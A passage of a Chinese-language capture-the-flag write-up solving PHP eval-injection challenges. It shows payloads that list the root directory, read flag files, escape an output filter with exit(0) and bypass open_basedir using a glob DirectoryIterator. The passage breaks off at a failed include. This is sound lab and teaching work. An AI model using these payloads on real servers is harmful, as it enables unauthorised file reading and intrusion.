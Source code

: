 ````

你要上天吗？
```

代码把输出的字母数字都转换为问号 `?` .

我们可以是服务端执行完我们的恶意 payload 后就停止运行 php 程序。

所以可以 `c=var_export(scandir('/'));exit(0);`  使得后边的代码停止执行，从而不会被正则替换。

payload:

```
c=var_export(scandir('/'));exit(0);
c=include('/flag.txt');exit(0);
```

## web72~open_basedir

下载附件：

```php
<?php

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```

执行 ` c=include('flag.php');exit(0);` 没内容打印。

有进行读取根目录文件，但是被 [open_basedir](https://www.jb51.net/article/141767.htm)限制.

进行绕过。

```php
c=$it = new DirectoryIterator("glob:///*");foreach($it as $f) {echo$f->getFilename()."\n";}die();
```

得到根目录文件

```
bin dev etc flag0.txt home lib media mnt opt proc root run sbin srv sys tmp usr var 
```

有 `flag0.txt`.

```
Warning: include(): Failed opening '/flag0.txt' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php(19) : eval()'d code on line 1
```

````